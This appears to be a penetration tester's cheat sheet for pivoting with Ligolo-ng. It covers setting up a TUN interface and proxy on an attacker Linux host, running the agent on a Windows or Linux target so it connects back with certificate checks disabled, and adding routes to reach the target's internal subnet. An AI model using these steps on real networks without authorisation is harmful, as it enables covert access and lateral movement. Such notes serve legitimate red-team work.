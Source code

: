 
### Linux Host
```bash
sudo ip tuntap add user garffff mode tun ligolo 
sudo ip link set ligolo up
sudo ./proxy -laddr 0.0.0.0:8080 -selfcert
```
### Windows Target:

```bash
agent.exe -connect <host_ip>:8080 -ignore-cert
```
### Linux Target

```bash
agent_linux -connect <host_ip>:8080 -ignore-cert
```

Then Back on the Linux host within Ligolo-ng:

```bash
session [select session]
ifconfig
[grab subnet you want to reach]
```

New Linux terminal:

```bash
sudo ip route add x.x.x.x/xx dev ligolo
route
ip route list
```

Back in Ligolo-ng - make sure you are in the correct session

```bash
start
```